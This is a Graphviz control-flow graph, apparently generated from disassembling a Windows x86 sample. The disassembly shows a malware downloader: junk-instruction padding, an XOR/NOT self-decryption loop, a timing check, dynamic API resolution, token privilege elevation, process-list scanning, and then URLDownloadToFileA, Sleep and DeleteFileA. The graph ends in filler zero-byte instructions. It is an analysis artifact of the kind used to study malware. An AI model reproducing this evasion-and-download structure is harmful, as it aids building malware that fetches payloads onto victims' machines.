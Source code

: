 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x00401324pushl_edi[label="start\npushl %edi",fillcolor="orange",color="lightgrey"];
a0x00401325xorl_edi_edi[label="0x00401325\nxorl %edi, %edi"];
a0x00401327popl_edi[label="0x00401327\npopl %edi"];
a0x00401328xchgl_ebx_edx[label="0x00401328\nxchgl %ebx, %edx"];
a0x0040132axchgl_ebx_edx[label="0x0040132a\nxchgl %ebx, %edx"];
a0x0040132cpushl_eax[label="0x0040132c\npushl %eax"];
a0x0040132dpopl_eax[label="0x0040132d\npopl %eax"];
a0x0040132ecall_0x004013c4[label="0x0040132e\ncall 0x004013c4"];
a0x004013c4jmp_GetTickCount_kernel32_dll[label="0x004013c4\njmp GetTickCount@kernel32.dll"];
GetTickCount_kernel32_dll[label="GetTickCount@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401333pushl_eax[label="0x00401333\npushl %eax"];
a0x00401334pushl_ecx[label="0x00401334\npushl %ecx"];
a0x00401335pushl_edi[label="0x00401335\npushl %edi"];
a0x00401336popl_edi[label="0x00401336\npopl %edi"];
a0x00401337popl_ecx[label="0x00401337\npopl %ecx"];
a0x00401338popl_ecx[label="0x00401338\npopl %ecx"];
a0x00401339cmpl_0x17UINT8_ecx[label="0x00401339\ncmpl $0x17<UINT8>, %ecx"];
a0x0040133cjb_0x00401341[label="0x0040133c\njb 0x00401341"];
a0x0040133epushl_edi[label="0x0040133e\npushl %edi"];
a0x0040133fnop_[label="0x0040133f\nnop "];
a0x00401340popl_edi[label="0x00401340\npopl %edi"];
a0x00401341pushl_eax[label="0x00401341\npushl %eax"];
a0x00401342nop_[label="0x00401342\nnop "];
a0x00401343popl_eax[label="0x00401343\npopl %eax"];
a0x00401344nop_[label="0x00401344\nnop "];
a0x00401345pushl_eax[label="0x00401345\npushl %eax"];
a0x00401346nop_[label="0x00401346\nnop "];
a0x00401347popl_eax[label="0x00401347\npopl %eax"];
a0x00401348pushl_esi[label="0x00401348\npushl %esi"];
a0x00401349movl_edi_esi[label="0x00401349\nmovl %edi, %esi"];
a0x0040134bpopl_esi[label="0x0040134b\npopl %esi"];
a0x0040134cpushl_0x40364eUINT32[label="0x0040134c\npushl $0x40364e<UINT32>"];
a0x00401351pushl_0x403000UINT32[label="0x00401351\npushl $0x403000<UINT32>"];
a0x00401356call_0x004012e9[label="0x00401356\ncall 0x004012e9"];
a0x004012e9pushl_ebp[label="0x004012e9\npushl %ebp"];
a0x004012eamovl_esp_ebp[label="0x004012ea\nmovl %esp, %ebp"];
a0x004012ecpushl_edi[label="0x004012ec\npushl %edi"];
a0x004012edxchgl_ecx_ecx[label="0x004012ed\nxchgl %ecx, %ecx"];
a0x004012efmovl_0x8ebp__edi[label="0x004012ef\nmovl 0x8(%ebp), %edi"];
a0x004012f2xchgl_edi_ebx[label="0x004012f2\nxchgl %edi, %ebx"];
a0x004012f4nop_[label="0x004012f4\nnop "];
a0x004012f5xchgl_edi_ebx[label="0x004012f5\nxchgl %edi, %ebx"];
a0x004012f7jmp_0x00401313[label="0x004012f7\njmp 0x00401313"];
a0x00401313cmpl_0xcebp__edi[label="0x00401313\ncmpl 0xc(%ebp), %edi"];
a0x00401316jne_0x004012f9[label="0x00401316\njne 0x004012f9"];
a0x004012f9pushl_edi[label="0x004012f9\npushl %edi"];
a0x004012fapushl_ecx[label="0x004012fa\npushl %ecx"];
a0x004012fbpopl_ecx[label="0x004012fb\npopl %ecx"];
a0x004012fcpopl_edi[label="0x004012fc\npopl %edi"];
a0x004012fdincl_edi[label="0x004012fd\nincl %edi"];
a0x004012fepushl_edx[label="0x004012fe\npushl %edx"];
a0x004012ffnop_[label="0x004012ff\nnop "];
a0x00401300popl_edx[label="0x00401300\npopl %edx"];
a0x00401301nop_[label="0x00401301\nnop "];
a0x00401302xorb_0x11UINT8__1edi_[label="0x00401302\nxorb $0x11<UINT8>, -1(%edi)"];
a0x00401306pushl_edi[label="0x00401306\npushl %edi"];
a0x00401307xchgl_edi_edx[label="0x00401307\nxchgl %edi, %edx"];
a0x00401309xchgl_edi_edx[label="0x00401309\nxchgl %edi, %edx"];
a0x0040130bpopl_edi[label="0x0040130b\npopl %edi"];
a0x0040130cnotb__1edi_[label="0x0040130c\nnotb -1(%edi)"];
a0x0040130fpushl_edx[label="0x0040130f\npushl %edx"];
a0x00401310nop_[label="0x00401310\nnop "];
a0x00401311popl_edx[label="0x00401311\npopl %edx"];
a0x00401312nop_[label="0x00401312\nnop "];
a0x00401318pushl_ebx[label="0x00401318\npushl %ebx"];
a0x00401319pushl_esi[label="0x00401319\npushl %esi"];
a0x0040131apopl_esi[label="0x0040131a\npopl %esi"];
a0x0040131bpopl_ebx[label="0x0040131b\npopl %ebx"];
a0x0040131cpopl_edi[label="0x0040131c\npopl %edi"];
a0x0040131dleave_[label="0x0040131d\nleave "];
a0x0040131eret_0x8UINT16[label="0x0040131e\nret $0x8<UINT16>"];
a0x0040135bnop_[label="0x0040135b\nnop "];
a0x0040135cpushl_edx[label="0x0040135c\npushl %edx"];
a0x0040135dmovl_edx_edx[label="0x0040135d\nmovl %edx, %edx"];
a0x0040135fpopl_edx[label="0x0040135f\npopl %edx"];
a0x00401360pushl_0x4012e3UINT32[label="0x00401360\npushl $0x4012e3<UINT32>"];
a0x00401365pushl_0x401000UINT32[label="0x00401365\npushl $0x401000<UINT32>"];
a0x0040136acall_0x004012e9[label="0x0040136a\ncall 0x004012e9"];
a0x0040136fpushl_eax[label="0x0040136f\npushl %eax"];
a0x00401370nop_[label="0x00401370\nnop "];
a0x00401371popl_eax[label="0x00401371\npopl %eax"];
a0x00401372nop_[label="0x00401372\nnop "];
a0x00401373nop_[label="0x00401373\nnop "];
a0x00401374pushl_ebx[label="0x00401374\npushl %ebx"];
a0x00401375xchgl_ebx_edx[label="0x00401375\nxchgl %ebx, %edx"];
a0x00401377xchgl_ebx_edx[label="0x00401377\nxchgl %ebx, %edx"];
a0x00401379popl_ebx[label="0x00401379\npopl %ebx"];
a0x0040137aaddl_0x33013UINT32_0x0040138b[label="0x0040137a\naddl $0x33013<UINT32>, 0x0040138b"];
a0x00401384pushl_eax[label="0x00401384\npushl %eax"];
a0x00401385nop_[label="0x00401385\nnop "];
a0x00401386popl_eax[label="0x00401386\npopl %eax"];
a0x00401387pushl_ebx[label="0x00401387\npushl %ebx"];
a0x00401388nop_[label="0x00401388\nnop "];
a0x00401389popl_ebx[label="0x00401389\npopl %ebx"];
a0x0040138ajmp_0x0040120d[label="0x0040138a\njmp 0x0040120d"];
a0x0040120dxchgl_edx_edx[label="0x0040120d\nxchgl %edx, %edx"];
a0x0040120fxorl_eax_eax[label="0x0040120f\nxorl %eax, %eax"];
a0x00401211call_0x004013c4[label="0x00401211\ncall 0x004013c4"];
a0x00401216cmpl_0x3bUINT8_eax[label="0x00401216\ncmpl $0x3b<UINT8>, %eax"];
a0x00401219jb_0x00401224[label="0x00401219\njb 0x00401224"];
a0x0040121bnop_[label="0x0040121b\nnop "];
a0x0040121cmovb_0x55UINT8_0x0040310f[label="0x0040121c\nmovb $0x55<UINT8>, 0x0040310f"];
a0x00401223nop_[label="0x00401223\nnop "];
a0x00401224call_0x00401066[label="0x00401224\ncall 0x00401066"];
a0x00401066pushl_ebp[label="0x00401066\npushl %ebp"];
a0x00401067movl_esp_ebp[label="0x00401067\nmovl %esp, %ebp"];
a0x00401069addl_0xffffffd8UINT8_esp[label="0x00401069\naddl $0xffffffd8<UINT8>, %esp"];
a0x0040106cpushl_esi[label="0x0040106c\npushl %esi"];
a0x0040106dpushl_edi[label="0x0040106d\npushl %edi"];
a0x0040106epushl_0x4030abUINT32[label="0x0040106e\npushl $0x4030ab<UINT32>"];
a0x00401073pushl_0x403015UINT32[label="0x00401073\npushl $0x403015<UINT32>"];
a0x00401078call_0x00401004[label="0x00401078\ncall 0x00401004"];
a0x00401004pushl_ebp[label="0x00401004\npushl %ebp"];
a0x00401005movl_esp_ebp[label="0x00401005\nmovl %esp, %ebp"];
a0x00401007pushl_0x8ebp_[label="0x00401007\npushl 0x8(%ebp)"];
a0x0040100acall_0x004013ca[label="0x0040100a\ncall 0x004013ca"];
a0x004013cajmp_LoadLibraryA_kernel32_dll[label="0x004013ca\njmp LoadLibraryA@kernel32.dll"];
LoadLibraryA_kernel32_dll[label="LoadLibraryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040100ftestl_eax_eax[label="0x0040100f\ntestl %eax, %eax"];
a0x00401011je_0x00401043[label="0x00401011\nje 0x00401043"];
a0x00401013movl_eax_ebx[label="0x00401013\nmovl %eax, %ebx"];
a0x00401015movl_0x8ebp__edi[label="0x00401015\nmovl 0x8(%ebp), %edi"];
a0x00401018movl_0xcebp__esi[label="0x00401018\nmovl 0xc(%ebp), %esi"];
a0x0040101bcld_[label="0x0040101b\ncld "];
a0x0040101cxorl_eax_eax[label="0x0040101c\nxorl %eax, %eax"];
a0x0040101eorl_0xffffffffUINT8_ecx[label="0x0040101e\norl $0xffffffff<UINT8>, %ecx"];
a0x00401021repnz_scasb_es_edi__al[label="0x00401021\nrepnz scasb %es:(%edi), %al"];
a0x00401023cmpb_0x0UINT8_edi_[label="0x00401023\ncmpb $0x0<UINT8>, (%edi)"];
a0x00401026je_0x0040103e[label="0x00401026\nje 0x0040103e"];
a0x00401028pushl_edi[label="0x00401028\npushl %edi"];
a0x00401029pushl_ebx[label="0x00401029\npushl %ebx"];
a0x0040102acall_0x004013be[label="0x0040102a\ncall 0x004013be"];
a0x004013bejmp_GetProcAddress_kernel32_dll[label="0x004013be\njmp GetProcAddress@kernel32.dll"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040102forl_eax_eax[label="0x0040102f\norl %eax, %eax"];
a0x00401031jne_0x00401037[label="0x00401031\njne 0x00401037"];
a0x00401037movl_eax_esi_[label="0x00401037\nmovl %eax, (%esi)"];
a0x00401039addl_0x4UINT8_esi[label="0x00401039\naddl $0x4<UINT8>, %esi"];
a0x0040103cjmp_0x0040101b[label="0x0040103c\njmp 0x0040101b"];
a0x0040103emovl_0x1UINT32_eax[label="0x0040103e\nmovl $0x1<UINT32>, %eax"];
a0x00401043leave_[label="0x00401043\nleave "];
a0x00401044ret_0x8UINT16[label="0x00401044\nret $0x8<UINT16>"];
a0x0040107dpushl_0x4030bfUINT32[label="0x0040107d\npushl $0x4030bf<UINT32>"];
a0x00401082pushl_0x40307eUINT32[label="0x00401082\npushl $0x40307e<UINT32>"];
a0x00401087call_0x00401004[label="0x00401087\ncall 0x00401004"];
a0x00401033leave_[label="0x00401033\nleave "];
a0x00401034ret_0x8UINT16[label="0x00401034\nret $0x8<UINT16>"];
a0x0040108ccmpl_0x0UINT8_0x004030c3[label="0x0040108c\ncmpl $0x0<UINT8>, 0x004030c3"];
a0x00401093je_0x004010a3[label="0x00401093\nje 0x004010a3"];
a0x004010a3cmpl_0x0UINT8_0x004030ab[label="0x004010a3\ncmpl $0x0<UINT8>, 0x004030ab"];
a0x004010aaje_0x004010d0[label="0x004010aa\nje 0x004010d0"];
a0x004010accmpl_0x0UINT8_0x004030af[label="0x004010ac\ncmpl $0x0<UINT8>, 0x004030af"];
a0x004010b3je_0x004010d0[label="0x004010b3\nje 0x004010d0"];
a0x004010b5cmpl_0x0UINT8_0x004030b3[label="0x004010b5\ncmpl $0x0<UINT8>, 0x004030b3"];
a0x004010bcje_0x004010d0[label="0x004010bc\nje 0x004010d0"];
a0x004010becmpl_0x0UINT8_0x004030b7[label="0x004010be\ncmpl $0x0<UINT8>, 0x004030b7"];
a0x004010c5je_0x004010d0[label="0x004010c5\nje 0x004010d0"];
a0x004010c7cmpl_0x0UINT8_0x004030bb[label="0x004010c7\ncmpl $0x0<UINT8>, 0x004030bb"];
a0x004010cejne_0x004010d4[label="0x004010ce\njne 0x004010d4"];
a0x004010d4pushl_0x8UINT8[label="0x004010d4\npushl $0x8<UINT8>"];
a0x004010d6leal__40ebp__eax[label="0x004010d6\nleal -40(%ebp), %eax"];
a0x004010d9pushl_eax[label="0x004010d9\npushl %eax"];
a0x004010dacall_0x00401047[label="0x004010da\ncall 0x00401047"];
a0x00401047pushl_ebp[label="0x00401047\npushl %ebp"];
a0x00401048movl_esp_ebp[label="0x00401048\nmovl %esp, %ebp"];
a0x0040104apushl_edi[label="0x0040104a\npushl %edi"];
a0x0040104bcld_[label="0x0040104b\ncld "];
a0x0040104cmovl_0x8ebp__edi[label="0x0040104c\nmovl 0x8(%ebp), %edi"];
a0x0040104fmovl_0xcebp__ecx[label="0x0040104f\nmovl 0xc(%ebp), %ecx"];
a0x00401052shrl_0x2UINT8_ecx[label="0x00401052\nshrl $0x2<UINT8>, %ecx"];
a0x00401055xorl_eax_eax[label="0x00401055\nxorl %eax, %eax"];
a0x00401057repz_stosl_eax_es_edi_[label="0x00401057\nrepz stosl %eax, %es:(%edi)"];
a0x00401059movl_0xcebp__ecx[label="0x00401059\nmovl 0xc(%ebp), %ecx"];
a0x0040105candl_0x3UINT8_ecx[label="0x0040105c\nandl $0x3<UINT8>, %ecx"];
a0x0040105frepz_stosb_al_es_edi_[label="0x0040105f\nrepz stosb %al, %es:(%edi)"];
a0x00401061popl_edi[label="0x00401061\npopl %edi"];
a0x00401062leave_[label="0x00401062\nleave "];
a0x00401063ret_0x8UINT16[label="0x00401063\nret $0x8<UINT16>"];
a0x004010dfpushl_0x2UINT8[label="0x004010df\npushl $0x2<UINT8>"];
a0x004010e1pushl_0x8UINT8[label="0x004010e1\npushl $0x8<UINT8>"];
a0x004010e3leal__40ebp__eax[label="0x004010e3\nleal -40(%ebp), %eax"];
a0x004010e6pushl_eax[label="0x004010e6\npushl %eax"];
a0x004010e7call_0x004030af[label="0x004010e7\ncall 0x004030af"];
InitializeAcl_advapi32_dll[label="InitializeAcl@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004010edcall_0x004013b2[label="0x004010ed\ncall 0x004013b2"];
a0x004013b2jmp_GetCurrentProcess_kernel32_dll[label="0x004013b2\njmp GetCurrentProcess@kernel32.dll"];
GetCurrentProcess_kernel32_dll[label="GetCurrentProcess@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004010f2pushl_eax[label="0x004010f2\npushl %eax"];
a0x004010f3xchgl_eax_edx[label="0x004010f3\nxchgl %eax, %edx"];
a0x004010f4pushl_0x0UINT8[label="0x004010f4\npushl $0x0<UINT8>"];
a0x004010f6leal__40ebp__eax[label="0x004010f6\nleal -40(%ebp), %eax"];
a0x004010f9pushl_eax[label="0x004010f9\npushl %eax"];
a0x004010fapushl_0x0UINT8[label="0x004010fa\npushl $0x0<UINT8>"];
a0x004010fcpushl_0x0UINT8[label="0x004010fc\npushl $0x0<UINT8>"];
a0x004010fepushl_0x4UINT8[label="0x004010fe\npushl $0x4<UINT8>"];
a0x00401100pushl_0x6UINT8[label="0x00401100\npushl $0x6<UINT8>"];
a0x00401102pushl_edx[label="0x00401102\npushl %edx"];
a0x00401103call_0x004030bb[label="0x00401103\ncall 0x004030bb"];
SetSecurityInfo_advapi32_dll[label="SetSecurityInfo@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401109popl_edx[label="0x00401109\npopl %edx"];
a0x0040110aleal__4ebp__eax[label="0x0040110a\nleal -4(%ebp), %eax"];
a0x0040110dpushl_eax[label="0x0040110d\npushl %eax"];
a0x0040110epushl_0x28UINT8[label="0x0040110e\npushl $0x28<UINT8>"];
a0x00401110pushl_edx[label="0x00401110\npushl %edx"];
a0x00401111call_0x004030b7[label="0x00401111\ncall 0x004030b7"];
OpenProcessToken_advapi32_dll[label="OpenProcessToken@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401117leal__12ebp__eax[label="0x00401117\nleal -12(%ebp), %eax"];
a0x0040111apushl_eax[label="0x0040111a\npushl %eax"];
a0x0040111bpushl_0x403004UINT32[label="0x0040111b\npushl $0x403004<UINT32>"];
a0x00401120pushl_0x0UINT8[label="0x00401120\npushl $0x0<UINT8>"];
a0x00401122call_0x004030b3[label="0x00401122\ncall 0x004030b3"];
LookupPrivilegeValueA_advapi32_dll[label="LookupPrivilegeValueA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401128leal__12ebp__esi[label="0x00401128\nleal -12(%ebp), %esi"];
a0x0040112bleal__24ebp__edi[label="0x0040112b\nleal -24(%ebp), %edi"];
a0x0040112emovl_0x8UINT32_ecx[label="0x0040112e\nmovl $0x8<UINT32>, %ecx"];
a0x00401133repz_movsb_ds_esi__es_edi_[label="0x00401133\nrepz movsb %ds:(%esi), %es:(%edi)"];
a0x00401135movl_0x1UINT32__28ebp_[label="0x00401135\nmovl $0x1<UINT32>, -28(%ebp)"];
a0x0040113cmovl_0x2UINT32__16ebp_[label="0x0040113c\nmovl $0x2<UINT32>, -16(%ebp)"];
a0x00401143leal__32ebp__eax[label="0x00401143\nleal -32(%ebp), %eax"];
a0x00401146pushl_eax[label="0x00401146\npushl %eax"];
a0x00401147leal__28ebp__eax[label="0x00401147\nleal -28(%ebp), %eax"];
a0x0040114apushl_eax[label="0x0040114a\npushl %eax"];
a0x0040114bpushl_0x10UINT8[label="0x0040114b\npushl $0x10<UINT8>"];
a0x0040114dpushl_eax[label="0x0040114d\npushl %eax"];
a0x0040114epushl_0x0UINT8[label="0x0040114e\npushl $0x0<UINT8>"];
a0x00401150pushl__4ebp_[label="0x00401150\npushl -4(%ebp)"];
a0x00401153call_0x004030ab[label="0x00401153\ncall 0x004030ab"];
AdjustTokenPrivileges_advapi32_dll[label="AdjustTokenPrivileges@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401159popl_edi[label="0x00401159\npopl %edi"];
a0x0040115apopl_esi[label="0x0040115a\npopl %esi"];
a0x0040115bleave_[label="0x0040115b\nleave "];
a0x0040115cret[label="0x0040115c\nret"];
a0x00401229call_0x00401182[label="0x00401229\ncall 0x00401182"];
a0x00401182pushl_ebp[label="0x00401182\npushl %ebp"];
a0x00401183movl_esp_ebp[label="0x00401183\nmovl %esp, %ebp"];
a0x00401185addl_0xfffffed4UINT32_esp[label="0x00401185\naddl $0xfffffed4<UINT32>, %esp"];
a0x0040118bpushl_edi[label="0x0040118b\npushl %edi"];
a0x0040118cmovl_0x128UINT32__296ebp_[label="0x0040118c\nmovl $0x128<UINT32>, -296(%ebp)"];
a0x00401196pushl_0x0UINT8[label="0x00401196\npushl $0x0<UINT8>"];
a0x00401198pushl_0x2UINT8[label="0x00401198\npushl $0x2<UINT8>"];
a0x0040119acall_0x004013a0[label="0x0040119a\ncall 0x004013a0"];
a0x004013a0jmp_CreateToolhelp32Snapshot_kernel32_dll[label="0x004013a0\njmp CreateToolhelp32Snapshot@kernel32.dll"];
CreateToolhelp32Snapshot_kernel32_dll[label="CreateToolhelp32Snapshot@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040119fmovl_eax__300ebp_[label="0x0040119f\nmovl %eax, -300(%ebp)"];
a0x004011a5leal__296ebp__eax[label="0x004011a5\nleal -296(%ebp), %eax"];
a0x004011abpushl_eax[label="0x004011ab\npushl %eax"];
a0x004011acpushl__300ebp_[label="0x004011ac\npushl -300(%ebp)"];
a0x004011b2call_0x004013d6[label="0x004011b2\ncall 0x004013d6"];
a0x004013d6jmp_Process32First_kernel32_dll[label="0x004013d6\njmp Process32First@kernel32.dll"];
Process32First_kernel32_dll[label="Process32First@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011b7orl_eax_eax[label="0x004011b7\norl %eax, %eax"];
a0x004011b9je_0x004011fd[label="0x004011b9\nje 0x004011fd"];
a0x004011bbmovl_0x403208UINT32_edi[label="0x004011bb\nmovl $0x403208<UINT32>, %edi"];
a0x004011c0pushl_edi[label="0x004011c0\npushl %edi"];
a0x004011c1leal__260ebp__eax[label="0x004011c1\nleal -260(%ebp), %eax"];
a0x004011c7pushl_eax[label="0x004011c7\npushl %eax"];
a0x004011c8call_0x004013ee[label="0x004011c8\ncall 0x004013ee"];
a0x004013eejmp_lstrcmpiA_kernel32_dll[label="0x004013ee\njmp lstrcmpiA@kernel32.dll"];
lstrcmpiA_kernel32_dll[label="lstrcmpiA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011cdorl_eax_eax[label="0x004011cd\norl %eax, %eax"];
a0x004011cfjne_0x004011dc[label="0x004011cf\njne 0x004011dc"];
a0x004011dccld_[label="0x004011dc\ncld "];
a0x004011ddxorl_eax_eax[label="0x004011dd\nxorl %eax, %eax"];
a0x004011dforl_0xffffffffUINT8_ecx[label="0x004011df\norl $0xffffffff<UINT8>, %ecx"];
a0x004011e2repnz_scasb_es_edi__al[label="0x004011e2\nrepnz scasb %es:(%edi), %al"];
a0x004011e4cmpb_0x0UINT8_edi_[label="0x004011e4\ncmpb $0x0<UINT8>, (%edi)"];
a0x004011e7jne_0x004011c0[label="0x004011e7\njne 0x004011c0"];
a0x004011e9leal__296ebp__eax[label="0x004011e9\nleal -296(%ebp), %eax"];
a0x004011efpushl_eax[label="0x004011ef\npushl %eax"];
a0x004011f0pushl__300ebp_[label="0x004011f0\npushl -300(%ebp)"];
a0x004011f6call_0x004013dc[label="0x004011f6\ncall 0x004013dc"];
a0x004013dcjmp_Process32Next_kernel32_dll[label="0x004013dc\njmp Process32Next@kernel32.dll"];
Process32Next_kernel32_dll[label="Process32Next@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011fbjmp_0x004011b7[label="0x004011fb\njmp 0x004011b7"];
a0x004011fdpushl__300ebp_[label="0x004011fd\npushl -300(%ebp)"];
a0x00401203call_0x0040139a[label="0x00401203\ncall 0x0040139a"];
a0x0040139ajmp_CloseHandle_kernel32_dll[label="0x0040139a\njmp CloseHandle@kernel32.dll"];
CloseHandle_kernel32_dll[label="CloseHandle@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401208xorl_eax_eax[label="0x00401208\nxorl %eax, %eax"];
a0x0040120apopl_edi[label="0x0040120a\npopl %edi"];
a0x0040120bleave_[label="0x0040120b\nleave "];
a0x0040120cret[label="0x0040120c\nret"];
a0x0040122emovl_0x00403668_eax[label="0x0040122e\nmovl 0x00403668, %eax"];
a0x00401233pushl_0x4030f3UINT32[label="0x00401233\npushl $0x4030f3<UINT32>"];
a0x00401238call_0x004013ca[label="0x00401238\ncall 0x004013ca"];
a0x0040123dorl_eax_eax[label="0x0040123d\norl %eax, %eax"];
a0x0040123fje_0x0040129a[label="0x0040123f\nje 0x0040129a"];
a0x00401241pushl_0x40310fUINT32[label="0x00401241\npushl $0x40310f<UINT32>"];
a0x00401246pushl_eax[label="0x00401246\npushl %eax"];
a0x00401247call_0x004013be[label="0x00401247\ncall 0x004013be"];
a0x0040124corl_eax_eax[label="0x0040124c\norl %eax, %eax"];
a0x0040124eje_0x0040129a[label="0x0040124e\nje 0x0040129a"];
a0x00401250movl_eax_0x00403664[label="0x00401250\nmovl %eax, 0x00403664"];
a0x00401255movl_0x4031c3UINT32_eax[label="0x00401255\nmovl $0x4031c3<UINT32>, %eax"];
a0x0040125amovl_0x4031f6UINT32_ebx[label="0x0040125a\nmovl $0x4031f6<UINT32>, %ebx"];
a0x0040125fmovl_0x1UINT32_ecx[label="0x0040125f\nmovl $0x1<UINT32>, %ecx"];
a0x00401264movb_0x31UINT8_0x004031f4[label="0x00401264\nmovb $0x31<UINT8>, 0x004031f4"];
a0x0040126bmovb_0x31UINT8_0x00403202[label="0x0040126b\nmovb $0x31<UINT8>, 0x00403202"];
a0x00401272call_0x004012a8[label="0x00401272\ncall 0x004012a8"];
a0x004012a8pushl_ebx[label="0x004012a8\npushl %ebx"];
a0x004012a9pushl_eax[label="0x004012a9\npushl %eax"];
a0x004012aapushl_ecx[label="0x004012aa\npushl %ecx"];
a0x004012abxchgl_ecx_ecx[label="0x004012ab\nxchgl %ecx, %ecx"];
a0x004012adxchgl_ebx_ebx[label="0x004012ad\nxchgl %ebx, %ebx"];
a0x004012afpushl_0x0UINT8[label="0x004012af\npushl $0x0<UINT8>"];
a0x004012b1pushl_0x0UINT8[label="0x004012b1\npushl $0x0<UINT8>"];
a0x004012b3pushl_ebx[label="0x004012b3\npushl %ebx"];
a0x004012b4pushl_eax[label="0x004012b4\npushl %eax"];
a0x004012b5pushl_0x0UINT8[label="0x004012b5\npushl $0x0<UINT8>"];
a0x004012b7call_0x00403664[label="0x004012b7\ncall 0x00403664"];
URLDownloadToFileA_urlmon_dll[label="URLDownloadToFileA@urlmon.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012bdnop_[label="0x004012bd\nnop "];
a0x004012benop_[label="0x004012be\nnop "];
a0x004012bfnop_[label="0x004012bf\nnop "];
a0x004012c0popl_ecx[label="0x004012c0\npopl %ecx"];
a0x004012c1orl_ecx_ecx[label="0x004012c1\norl %ecx, %ecx"];
a0x004012c3je_0x004012ce[label="0x004012c3\nje 0x004012ce"];
a0x004012cepushl_0x2122UINT32[label="0x004012ce\npushl $0x2122<UINT32>"];
a0x004012d3call_0x004013e2[label="0x004012d3\ncall 0x004013e2"];
a0x004013e2jmp_Sleep_kernel32_dll[label="0x004013e2\njmp Sleep@kernel32.dll"];
Sleep_kernel32_dll[label="Sleep@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012d8pushl_ebx[label="0x004012d8\npushl %ebx"];
a0x004012d9call_0x004013a6[label="0x004012d9\ncall 0x004013a6"];
a0x004013a6jmp_DeleteFileA_kernel32_dll[label="0x004013a6\njmp DeleteFileA@kernel32.dll"];
DeleteFileA_kernel32_dll[label="DeleteFileA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012denop_[label="0x004012de\nnop "];
a0x004012dfnop_[label="0x004012df\nnop "];
a0x004012e0popl_eax[label="0x004012e0\npopl %eax"];
a0x004012e1popl_ebx[label="0x004012e1\npopl %ebx"];
a0x004012e2ret[label="0x004012e2\nret"];
a0x00000000addb_al_eax_[label="0x00000000\naddb %al, (%eax)"];
a0x00000002addb_al_eax_[label="0x00000002\naddb %al, (%eax)"];
a0x00000004addb_al_eax_[label="0x00000004\naddb %al, (%eax)"];
a0x00000006addb_al_eax_[label="0x00000006\naddb %al, (%eax)"];
a0x00000008addb_al_eax_[label="0x00000008\naddb %al, (%eax)"];
a0x0000000aaddb_al_eax_[label="0x0000000a\naddb %al, (%eax)"];
a0x0000000caddb_al_eax_[label="0x0000000c\naddb %al, (%eax)"];
a0x0000000eaddb_al_eax_[label="0x0000000e\naddb %al, (%eax)"];
a0x00000010addb_al_eax_[label="0x00000010\naddb %al, (%eax)"];
a0x00000012addb_al_eax_[label="0x00000012\naddb %al, (%eax)"];
a0x00000014addb_al_eax_[label="0x00000014\naddb %al, (%eax)"];
a0x00000016addb_al_eax_[label="0x00000016\naddb %al, (%eax)"];
a0x00000018addb_al_eax_[label="0x00000018\naddb %al, (%eax)"];
a0x0000001aaddb_al_eax_[label="0x0000001a\naddb %al, (%eax)"];
a0x0000001caddb_al_eax_[label="0x0000001c\naddb %al, (%eax)"];
a0x0000001eaddb_al_eax_[label="0x0000001e\naddb %al, (%eax)"];
a0x00000020addb_al_eax_[label="0x00000020\naddb %al, (%eax)"];
a0x00000022addb_al_eax_[label="0x00000022\naddb %al, (%eax)"];
a0x00000024addb_al_eax_[label="0x00000024\naddb %al, (%eax)"];
a0x00000026addb_al_eax_[label="0x00000026\naddb %al, (%eax)"];
a0x00000028addb_al_eax_[label="0x00000028\naddb %al, (%eax)"];
a0x0000002aaddb_al_eax_[label="0x0000002a\naddb %al, (%eax)"];
a0x0000002caddb_al_eax_[label="0x0000002c\naddb %al, (%eax)"];
a0x0000002eaddb_al_eax_[label="0x0000002e\naddb %al, (%eax)"];
